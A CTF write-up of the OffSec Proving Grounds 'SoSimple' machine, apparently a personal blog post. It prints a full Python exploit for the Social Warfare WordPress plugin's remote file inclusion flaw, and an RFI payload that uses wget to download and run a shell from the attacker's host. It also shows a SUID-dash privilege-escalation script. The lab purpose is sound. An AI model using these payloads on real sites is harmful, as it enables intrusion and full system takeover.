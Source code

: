 ```yaml
---
title: "Proving grounds Play: SoSimple"
layout: post
date: 2023-07-22 12:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
- RFI
- Wordpress
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```

# Walkthrough on Youtube

[![youtube](/assets/images/CTF/Proving_Grounds/SoSimple/youtube.png)](https://youtu.be/KodURDujWxs)

## NMAP
```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5b5543efafd03d0e63207af4ac416a45 (RSA)
|   256 53f5231be9aa8f41e218c6055007d8d4 (ECDSA)
|_  256 55b77b7e0bf54d1bdfc35da1d768a96b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: So Simple
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Fuzzing for directories and Files
```sh
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.158.78/FUZZ/
Total requests: 62284

=====================================================================
ID           Response   Lines    Word       Chars       Payload                               
=====================================================================

000000327:   200        147 L    646 W      13420 Ch    "wordpress"                           
000000386:   403        9 L      28 W       279 Ch      "icons"                               
000004227:   403        9 L      28 W       279 Ch      "server-status"                       
000004255:   200        77 L     39 W       495 Ch      "http://192.168.158.78//"             
000010756:   404        9 L      31 W       276 Ch      "secure_html"
```

## WPScan
```sh
+] social-warfare
 | Location: http://192.168.158.78/wordpress/wp-content/plugins/social-warfare/
 | Last Updated: 2023-02-15T16:23:00.000Z
 | [!] The version is out of date, the latest version is 4.4.1
```

### Searchsploit

![img](/assets/images/CTF/Proving_Grounds/SoSimple/searchsploit.png)

### Exploit

```py
import sys
import requests
import re
import urlparse
import optparse

class EXPLOIT:

	VULNPATH = "wp-admin/admin-post.php?swp_debug=load_options&swp_url=%s"

	def __init__(self, _t, _p):
		self.target  = _t
		self.payload = _p

	def engage(self):
		uri = urlparse.urljoin( self.target, self.VULNPATH % self.payload )
		r = requests.get( uri )
		if r.status_code == 500:
			print "[*] Received Response From Server!"
			rr  = r.text
			obj = re.search(r"^(.*)<\!DOCTYPE", r.text.replace( "\n", "lnbreak" ))
			if obj:
				resp = obj.groups()[0]
				if resp:
					print "[<] Received: "
					print resp.replace( "lnbreak", "\n" )
				else:
					sys.exit("[<] Nothing Received for the given payload. Seems like the server is not vulnerable!")
			else:
				sys.exit("[<] Nothing Received for the given payload. Seems like the server is not vulnerable!")
		else:
			sys.exit( "[~] Unexpected Status Received!" )

def main():
	parser = optparse.OptionParser(  )

	parser.add_option( '-t', '--target', dest="target", default="", type="string", help="Target Link" )
	parser.add_option( ''  , '--payload-uri', dest="payload", default="", type="string", help="URI where the file payload.txt is located." )

	(options, args) = parser.parse_args()

	print "[>] Sending Payload to System!"
	exploit = EXPLOIT( options.target, options.payload )
	exploit.engage()

if __name__ == "__main__":
	main()
```

Vulnerable PATH

```py
VULNPATH = "wp-admin/admin-post.php?swp_debug=load_options&swp_url=%s"
```
### Remote File Inclusion

**Remote payload file**

```text
<pre>
system("wget http://192.168.45.217:8000/shell  -O /var/tmp/shell; chmod 755 /var/tmp/shell; chmod +x /var/tmp/shell; /var/tmp/shell");
</pre>
```
### Reverse shell payload using msfvenom

![img](/assets/images/CTF/Proving_Grounds/SoSimple/rev_shell.png)

### RFI Exploitation

![img](/assets/images/CTF/Proving_Grounds/SoSimple/rfi.png)

**Reverse shell connection obtained.**

## Privilege Escalation

User `max` ssh id_rsa file has been found.

![img](/assets/images/CTF/Proving_Grounds/SoSimple/id_rsa.png)

### SSH login to max

![img](/assets/images/CTF/Proving_Grounds/SoSimple/max.png)

Listing `max` user permission, finding exploit for the `service` using GTFO bins and switch user to `steven`

![img](/assets/images/CTF/Proving_Grounds/SoSimple/steven.png)

Listing `steven` user permisssions

![img](/assets/images/CTF/Proving_Grounds/SoSimple/server-health.png)

Create bash script using the location mentioned in the permissions.

```sh
#!/bin/bash

cp /bin/dash /var/tmp/dash; chmod u+s /var/tmp/dash
```

`chmod u+s` Allows the binary to be executed as owner + SUID permissions.

### Running script as root user

![img](/assets/images/CTF/Proving_Grounds/SoSimple/dash.png)

**Run** `dash`

![img](/assets/images/CTF/Proving_Grounds/SoSimple/proof.png)

`dash -p` preserves effective privilege with which it was created and executed with same privilege.

**Root obtained.**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
